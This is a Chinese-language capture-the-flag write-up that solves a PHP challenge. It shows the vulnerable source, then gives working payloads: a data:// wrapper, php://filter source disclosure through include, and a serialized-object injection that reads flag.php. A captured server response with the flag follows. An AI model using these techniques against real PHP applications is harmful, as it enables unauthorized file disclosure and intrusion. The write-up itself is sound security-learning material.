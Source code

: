 ## 知识点

* php反序列化
* php伪协议
* include利用php伪协议

## 解题过程

``` php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

先试下

``` http
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

然后用

``` http
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php
```

查看useless的代码（base64编码）

``` php
<?php

class Flag{  //flag.php
    public $file;
    public function __tostring(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}
?>
```

然后可以让$password等于Flag的序列化。file为flag.php。

## payload

最后的payload

``` http
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}
```

然后页面说很接近了，我差点以为这不对，还好我又用burpsuit的repeater又试了一下。

``` http
HTTP/1.1 200 OK
Server: openresty
Date: Mon, 20 Jan 2020 14:37:46 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 215
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/5.6.40

<br><h1>welcome to the zjctf</h1></br>  
<br>oh u find it </br>

<!--but i cant give it to u now-->

<?php

if(2===3){  
	return ("flag{15a85e3f-197a-4b8f-918b-73cc19e83db3}");
}

?>
<br>U R SO CLOSE !///COME ON PLZ
```

成功获取flag